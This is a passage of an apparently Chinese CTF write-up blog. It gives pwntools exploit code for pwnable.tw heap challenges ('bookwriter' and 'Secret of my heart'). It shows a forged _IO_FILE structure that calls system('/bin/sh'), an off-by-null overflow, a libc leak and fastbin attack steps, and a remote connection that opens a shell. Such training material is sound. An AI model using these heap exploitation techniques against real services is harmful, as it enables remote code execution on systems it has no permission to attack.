 ```python
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dd2141-0x00007ffff7a0d000)+0x1000
edit(3,"A"*0x10)
show(3)
p.readuntil("A"*0x10)
heap=u64(p.readline()[:-1].ljust(8,'\x00'))-0x50
add(0x28)
add(0x28)
add(0x28)
add(0x28)
add(0x28,"A"*0x28)

libc.address=base
fake_struct_address=0x603170-0x603000+heap
fake_struct="/bin/sh\x00"+p64(0x61)
fake_struct+=p64(libc.symbols['system'])+p64(libc.symbols['_IO_list_all']-0x10)
fake_struct+=p64(0)+p64(1)
fake_struct=fake_struct.ljust(0xa0,'\x00')+p64(fake_struct_address+0x8)
fake_struct =fake_struct.ljust(0xc0,'\x00')+p64(1)
fake_struct = fake_struct.ljust(0xd8, '\x00')+p64(fake_struct_address+0xd8-0x10)+p64(libc.symbols['system'])

edit(0,"\x00"*(0x603170-0x603010)+fake_struct+"\n")

log.warning(hex(heap))
log.warning(hex(base))
cmd(1)
p.sendlineafter("page :",str(1))
p.sendline("cat /home/bookwriter/flag")
p.interactive()
```
# Secret of my heart
比较常规的off by null byte
是 [HITCON2018_babyheap][2] 的简单版
利用思路在这里就简单叙述了
* 利用null byte off 造成over flow
* 泄露libc base
* fastbin atk
* call system

## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice :",str(c))
def add(size,c="n132",name="A"*0x20):
	cmd(1)
	p.sendlineafter("Size of heart : ",str(size))
	p.sendafter("Name of heart :",name)
	p.sendafter("my heart :",c)
def free(idx):
	cmd(3)
	p.sendlineafter("Index :",str(idx))
def show(idx):
	cmd(2)
	p.sendlineafter("Index :",str(idx))
#p=process("secret_of_my_heart",env={"LD_PRELOAD":"./libc_64.so.6"})
#context.log_level='debug'
p=remote("chall.pwnable.tw",10302)
add(0x100,"0")
show(0)
p.readuntil("A"*0x20)
```

[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert